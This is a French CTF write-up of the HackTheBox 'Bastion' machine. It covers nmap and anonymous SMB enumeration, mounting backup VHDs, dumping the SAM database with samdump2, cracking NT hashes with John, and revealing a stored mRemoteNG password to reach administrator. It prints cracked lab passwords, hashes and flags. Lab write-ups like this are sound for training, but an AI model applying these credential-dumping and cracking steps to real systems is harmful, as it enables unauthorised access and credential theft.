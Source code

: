 ```yaml
---
layout: post
title: HackTheBox - Bastion  
---
```


![bastion]({{ site.baseurl }}/images/bastion.png)

Débutons avec un scan : 

~~~bash
root@kali:~# nmap -p- -Pn -T5 10.10.10.134
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-10 23:42 CEST
Warning: 10.10.10.134 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.134
Host is up (0.066s latency).
Not shown: 63167 closed ports, 2355 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 41.27 seconds
~~~

Et si nous regardions la partie SMB ?  

~~~bash
root@kali:~# nmap -p445 -A 10.10.10.134
...
Host script results:
|_clock-skew: mean: -59m54s, deviation: 1h24m49s, median: -1h59m53s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-06-10T23:50:42+02:00
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-06-10 23:50:41
|_  start_date: 2019-06-09 23:13:05

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   ... 10
11  14.93 ms 10.10.10.134
~~~

En attendant continuons sur l’énumération :

~~~bash
root@kali:~# smbclient -L 10.10.10.134 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups           Disk      
	C$                   Disk      Default share
	IPC$                IPC       Remote IPC
~~~

Un dossier backups vraisemblablement intéressant : 

~~~bash
root@kali:~# smbclient //10.10.10.134/ -N
Try "help" to get a list of possible commands.
smb: \> list
0:	server=10.10.10.134, share=backups
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                           AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup   D        0  Fri Feb 22 13:44:02 2019

		7735807 blocks of size 4096. 2787024 blocks available
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0,9 KiloBytes/sec) (average 0,9 KiloBytes/sec)
~~~

Affichons le contenu des fameuses notes : 

~~~bash
root@kali:~# cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
~~~

En gros, nous sommes face à un partage contenant des sauvegardes, voyons voir : 

~~~bash
root@kali:~# smbclient //10.10.10.134/backups -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                           AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup   D        0  Fri Feb 22 13:44:02 2019

smb: \> cd WindowsImageBackup\
smb: \WindowsImageBackup\> ls
  .                                   D        0  Fri Feb 22 13:44:02 2019
  ..                                  D        0  Fri Feb 22 13:44:02 2019
  L4mpje-PC                  D        0  Fri Feb 22 13:45:32 2019

smb: \WindowsImageBackup\> cd "L4mpje-PC\Backup 2019-02-22 124351\"
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .      D        0    Fri Feb 22 13:45:32 2019
  ..     D        0    Fri Feb 22 13:45:32 2019
  A.vhd  A 37761024    Fri Feb 22 13:44:03 2019
  B.vhd  A 5418299392  Fri Feb 22 13:45:32 2019
~~~

Récupérons ces VHD. 

Ils doivent contenir des informations intéressantes, puis montons les : 

~~~bash
root@kali:~# virt-list-partitions b.vhd 
/dev/sda1
root@kali:~# virt-list-partitions a.vhd 
/dev/sda1
root@kali:~# guestmount --add b.vhd  --ro /mnt/b -m /dev/sda1
root@kali:~# ls /mnt/b
'$Recycle.Bin'  'Documents and Settings'   ProgramData     'System Volume Information'
 autoexec.bat    pagefile.sys             'Program Files'   Users
 config.sys      PerfLogs                  Recovery         Windows
~~~

Nous allons dumper la base de données SAM :

~~~bash
root@kali:/mnt/b/Windows/System32/config# samdump2 -o /root/out.sam /mnt/b/Windows/System32/config/SYSTEM /mnt/b/Windows/System32/config/SAM
root@kali:/mnt/b/Windows/System32/config# cat /root/out.sam 

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
~~~
Maintenant cassons la avec John :

~~~bash
root@kali:~# john out.sam -format=nt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (*disabled* Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-06-11 17:26) 2.439g/s 11457Kp/s 11457Kc/s 11463KC/s buresres..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
root@kali:~# john /root/out.sam -format=nt --show 
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left
~~~

Connectons-nous via SSH : 

~~~bash
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt 9bfe57d5c3309db3a151772f9d86c6cd 
~~~

En regardant autour de nous, il semble qu'un client mRemoteNG soit installé.
Voyons pour récupérer sa configuration :

~~~bash
root@kali:~# scp -v L4mpje@10.10.10.134:C:/\Users/\L4mpje/\AppData/\Roaming/\mRemoteNG/\confCons.xml mremote.txt
~~~
Depuis une machine virtuelle, importons le fichier `confCons.xml` et extrayons le mot de passe contenu dans les champs. 
Pour cela : 
- Cliquer sur Outils > Outils externes
- Faire un clic droit dans une des case vide du tableau > Nouvel outil externe (Maj + F4)
- Dans nom affiché > `Afficher le mot de passe`
- Dans nom du fichier > `CMD `
- Arguments > `/k echo %password%`
Maintenant depuis la liste de connexions, faire un clic droit sur la connexion qui nous intéresse et cliquer sur Afficher le mot de passe.
Dans notre cas : 

~~~bash
thXLHM96BeKL0ER2
~~~
> Source : http://hackersvanguard.com/mremoteng-insecure-password-storage/

Depuis SSH, tentons d'utiliser le mot de passe trouvé dans mRemoteNG :

~~~bash
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
administrator@BASTION C:\Users\Administrator>whoami 
bastion\administrator 
administrator@BASTION C:\Users\Administrator>type Desktop\root.txt 958850b91811676ed6620a9c430e65c8                     
~~~

We are ROOT !